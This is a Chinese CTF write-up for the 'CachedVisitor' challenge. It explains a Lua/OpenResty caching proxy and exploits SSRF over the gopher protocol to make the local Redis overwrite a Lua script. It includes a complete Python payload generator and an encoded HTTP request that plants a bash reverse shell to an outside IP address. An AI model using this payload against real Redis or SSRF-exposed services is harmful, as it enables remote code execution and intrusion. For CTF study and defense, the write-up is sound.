# 软件系统安全赛CachedVisitor详解——记一次对Redis+ssrf的详细分析-先知社区

> **来源**: https://xz.aliyun.com/news/16473  
> **文章ID**: 16473

---

# 分析dockerfile文件

```
[……]

COPY nginx.conf /usr/local/openresty/nginx/conf/nginx.conf
COPY index.html /usr/local/openresty/nginx/html/index.html
COPY main.lua /usr/local/openresty/nginx/lua/main.lua
RUN mkdir /scripts
COPY scripts/* /scripts
RUN chmod +x -R /scripts

[……]

COPY redis.conf /redis.conf

COPY start.sh /
RUN chmod +x /start.sh

COPY flag /flag
COPY readflag /readflag
RUN chmod 400 /flag
RUN chmod +xs /readflag

[……]
```

可以看到，这个web服务配置了一个main.lua脚本，然后又把scripts里面的文件复制到/scripts目录下，同时还启动了redis服务

# 分析main.lua

```
local function read_file(filename)
    [……]
end

local function execute_lua_code(script_content)
    local lua_code = script_content:match("##LUA_START##(.-)##LUA_END##")
    [……]
end

local function main()
    local filename = "/scripts/visit.script"
    local script_content = read_file(filename)
    if script_content then
        execute_lua_code(script_content)
    end
end

main()
```

他调用了两个函数

read\_file用来读取文件内容，lua代码，

execute\_lua\_code执行读取到的lua代码，要求以##LUA\_START##开头，##LUA\_END##结尾，匹配中间的代码

# 分析visit.script

```
##LUA_START##
local curl = require("cURL")
local redis = require("resty.redis")

ngx.req.read_body()
local args = ngx.req.get_uri_args()
local url = args.url

if not url then
    ngx.say("URL parameter is missing!")
    return
end

local red = redis:new()
red:set_timeout(1000)

local ok, err = red:connect("127.0.0.1", 6379)
if not ok then
    ngx.say("Failed to connect to Redis: ", err)
    return
end

local res, err = red:get(url)
if res and res ~= ngx.null then
    ngx.say(res)
    return
end

local c = curl.easy {
    url = url,
    timeout = 5,
    connecttimeout = 5
}

local response_body = {}

c:setopt_writefunction(table.insert, response_body)

local ok, err = pcall(c.perform, c)

if not ok then
    ngx.say("Failed to perform request: ", err)
    c:close()
    return
end

c:close()

local response_str = table.concat(response_body)

local ok, err = red:setex(url, 3600, response_str)
if not ok then
    ngx.say("Failed to save response in Redis: ", err)
    return
end

ngx.say(response_str)
##LUA_END##
```

可以看到，这个脚本就是redis连接了,开启了6379

# 部署镜像环境

这边直接用dokerfile起环境的话会挂掉，因为网不好

要先

```
docker pull openresty/openresty:bionic
```



然后起一个镜像，我们这里以redisme命名镜像

然后我们需要先把



改成on

然后运行

```
docker build -t redisme .
```



成功

生成容器，我用命令启动不起来，不知道为什么  
手动在docker里面开启一个容器



成功访问



# ssrf+redis

我这边先用dict协议，看到确实开放了6379端口



那么我们用gopher协议打一下试试，网上有很多工具



我们下一个，我这边用了gopherus

```
解释一下
*1指的是的数量
$8指的是长度
```

我这边是修改了它的脚本源码的最后变成这个样子

```
import urllib.parse

content="""\n\n##LUA_START##\nio.popen("bash -c \'bash -i >& /dev/tcp/8.217.118.198/7897 0>&1\'")\n##LUA_END##\n\n"""
len_content = len(content) + 4 #有content上下有4个换行
dir="/scripts"
filename="visit.script"
payload = f"""*1\r
$8\r
flushall\r
*3\r
$3\r
set\r
$1\r
8\r
${str(len_content)}\r


{content}


\r
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
${str(len(dir))}\r
{dir}\r
*4\r
$6\r
config\r
$3\r
set\r
$10\r
dbfilename\r
${str(len(filename))}\r
{filename}\r
*1\r
$4\r
save\r

"""

result=urllib.parse.quote_plus(payload).replace("+", "%20").replace("%2F", "/").replace("%25", "%").replace("%3A", ":")
print("gopher%3A//127.0.0.1%3A6379/_"+result)
```

如果放在bp运行的话，result这部分是要进行二次url编码的，选中然后curl+u




这里回显超时，但其实已经写入了。



想要ls，查看一下根目录，但是提示我执行命令权限不够，



经过测试发现如果用bash命令执行写入文件或者执行命令之类的操作的话都是不允许的  
但是用redis写入是可以的。那么其实我们到底应该把文件写入到scripts/visit.script还是main.lua呢？  
经过我测试，覆盖main.lua的话会导致整个环境崩掉，写在visit.script的话，当我们访问/visit?url=111的话  
他还是会触发脚本visit.script里面覆盖的内容。

最后想了一下，覆盖visit.script然后进行反弹shell


bp报文

```
GET /visit?url=gopher%3A//127.0.0.1%3A6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A8%250D%250A%252499%250D%250A%250A%250A%250A%250A%2523%2523LUA_START%2523%2523%250Aio.popen%2528%2522bash%2520-c%2520%2527bash%2520-i%2520%253E%2526%2520/dev/tcp/8.217.118.198/7897%25200%253E%25261%2527%2522%2529%250A%2523%2523LUA_END%2523%2523%250A%250A%250A%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%25248%250D%250A/scripts%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%252412%250D%250Avisit.script%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A HTTP/1.1
Host: localhost:15001
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://localhost:15001/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

docker这里也是发现写入成功



再次访问页面触发脚本



本地反弹shell成功，远程也成功了。



# 小结

最后看来就是一个覆盖文件，用redis反弹shell很常见的漏洞，但是还是走了跟多弯路，比如说脚本里面的细节一直没改对，也说明了自己的基本功还是不够扎实的，总而言之这次ctf还是让我收获挺多的。
